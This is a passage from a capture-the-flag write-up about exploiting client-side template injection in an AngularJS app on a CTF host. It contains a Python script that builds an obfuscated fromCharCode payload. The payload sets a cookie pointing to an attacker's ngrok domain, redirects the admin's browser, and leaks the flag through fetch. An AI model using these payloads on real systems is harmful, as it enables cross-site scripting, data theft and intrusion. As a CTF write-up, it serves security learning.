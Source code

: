 The logic I came up with was simple: <br /> 

- Force the browser to add a new cookie **NG_TRANSLATE_LANG_KEY** with a value to our ngrok domain <br /> 
- Craft a malicious Client-Side Template Injection in **name** <br /> 
- Redirect to **legacyversion2-1.ctf.hackaplaneten.se** using **location.href** <br />
- Once we get a hit, **fetch** will send a request to our server alnog with the flag <br />
- WIN


It was annoying to play with ASCII, so I created a Python script to ease up the process, below is the final payload

```py
payload = 'document.cookie = "NG_TRANSLATE_LANG_KEY=https://30f7-2001-8f8-153b-ef50-5c7a-c72d-c6fd-86ad.eu.ngrok.io/xx;path=/;domain=.ctf.hackaplaneten.se";window.location.href = "http://legacyversion2-1.ctf.hackaplaneten.se:8001/demo/"'
lst = []
for i in payload:
	try:
		lst.append(ord(i))
	except:
		pass
joined_string = ','.join(str(element) for element in lst)
final ="""http://legacy-1.ctf.hackaplaneten.se:8001/404?{{{{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x({}))()}}}}""".format(joined_string)
print(final)


## http://legacy-1.ctf.hackaplaneten.se:8001/404?{{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,32,61,32,34,78,71,95,84,82,65,78,83,76,65,84,69,95,76,65,78,71,95,75,69,89,61,104,116,116,112,115,58,47,47,51,48,102,55,45,50,48,48,49,45,56,102,56,45,49,53,51,98,45,101,102,53,48,45,53,99,55,97,45,99,55,50,100,45,99,54,102,100,45,56,54,97,100,46,101,117,46,110,103,114,111,107,46,105,111,47,120,120,59,112,97,116,104,61,47,59,100,111,109,97,105,110,61,46,99,116,102,46,104,97,99,107,97,112,108,97,110,101,116,101,110,46,115,101,34,59,119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,46,104,114,101,102,32,61,32,34,104,116,116,112,58,47,47,108,101,103,97,99,121,118,101,114,115,105,111,110,50,45,49,46,99,116,102,46,104,97,99,107,97,112,108,97,110,101,116,101,110,46,115,101,58,56,48,48,49,47,100,101,109,111,47,34))()}}
```

By submitting this to the admin, we got the flag.


![image](https://github.com/ixSly/CTFs/assets/32583633/1ab5b682-8a46-4877-9793-a8e9cc991b56)

